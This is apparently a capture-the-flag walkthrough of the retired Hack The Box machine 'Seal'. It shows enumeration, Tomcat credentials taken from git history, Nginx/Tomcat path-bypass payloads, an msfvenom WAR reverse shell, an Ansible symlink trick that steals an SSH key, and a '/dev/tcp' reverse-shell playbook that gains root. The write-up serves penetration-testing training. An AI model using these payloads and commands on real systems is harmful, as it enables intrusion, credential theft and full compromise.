 # Seal

This is the write-up for the box Seal that got retired at the 13th November 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.250    seal.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/seal.nmap 10.10.10.250
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b894739673d07315e3f4c27411ff967 (RSA)
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)
|_  256 b45e8393c54249de7125927123b18554 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
|_http-title: Seal Market
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
(...)
```

## Checking HTTPS (Port 443)

The website is a custom developed shop for vegetables an there is a search on the homepage.
In the footer is a potential username and hostname:
- _admin@seal.htb_

Lets search for hidden directories with **Gobuster**:
```
gobuster -u https://10.10.10.250/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It finds the directory _admin_, but a **Tomcat error** results in HTTP status code _404 Not Found_.

## Checking HTTP (Port 8080)

The web service on port 8080 forwards to a login form for [GitBucket](https://gitbucket.github.io/) which is a Git platform that runs on **Java Virtual Machine (JVM)**:

![Login for Gitbucket](seal_web-1.png)

It is possible to create an account to login an enumerate the repositories.
The repository _seal_market_ contains the code of the website on port 443 and the repository _infra_ has **YAML Playbook files** to automate the deployment of the web server with **Ansible**.

The file _tomcat/tomcat-users.xml_ in the repository _seal_market_ has no credentials, but when checking the history, there were credentials in the file before:
```
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
```

## Exploiting SSRF on Tomcat

The web server runs on **Tomcat** with **Nginx** as a reverse proxy and this combination has a known vulnerability described in [this talk by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf).
On page 40 there is an example of a payload that can be tested to access the _admin/dashboard_ directory:
```
https://10.10.10.250/admin;name=anything/dashboard/
```

The payload works and forwards to the page _Seal Market Admin Dashboard_.
This vulnerability can now be used to access the **Tomcat manager**:
```
https://10.10.10.250/manager;name=anything/html
```

There is another payload on page 48 that can also be used if the other one does not work:
```
https://10.10.10.250/manager/anything/..;/html
```

The credentials from the repository work and access is granted to the **Tomcat Web Application Manager**.
In here it is possible to upload **WAR files** to execute arbitrary code and gain a reverse shell.

Creating WAR file with **Msfvenom**:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f war > shell.war
```

To upload the file successfully, it is recommended to forward the request to a proxy like **Burpsuite** and modify the path to the payload:
```
POST /manager/anything/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=124FC0FEC599B8311FFA865033B1FD33 HTTP/1.1
Host: 10.10.10.250
(...)
```

After uploading the file and browsing to it, the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**.
In this case, I use **pspy** to enumerate the running processes:
```
wget http://10.10.14.3:8000/pspy64s

./pspy64s
```

Every minute the user _luis_ runs an **Ansible playbook** with sudo permissions:
```
/bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Contents of _run.yml_:
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/
```

The playbook copies files and the [documentation of synchronize](https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html#parameter-copy_links) shows that _copy_links_ copies symlinks as whole items.
This can be abused to reference the files in _/home/luis/.ssh_ to potentially gather a private SSH key.

Creating a symlink to the private _id_rsa_ key of _luis_ in the source directory:
```
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads

ln -s /home/luis/.ssh/id_rsa luis.key
```

Decompressing the new archive in _/opt/backups/archives/_:
```
cd /opt/backups/archives/

gzip -d "backup-2022-*.gz"

mv "backup-2022-*.tar" backup.tar

tar -xf backup.tar
```

The archive has the files of the _dashboard_ directory and in there is also the private SSH key of _luis_:
```
ssh -i luis.key luis@10.10.10.250
```

### Privilege Escalation to root

The user _luis_ has permissions to run any **Ansible playbook** as root:
```
sudo -l

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

Creating a YAML file to execute a reverse shell:
```yml
- hosts: localhost
  tasks:
  - name: Get Shell
    command: /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/9002 0>&1'
```

Executing the playbook with `sudo`:
```
sudo /usr/bin/ansible-playbook shell.yml
```

After executing it, the listener on my IP and port 9002 starts a reverse shell as root!
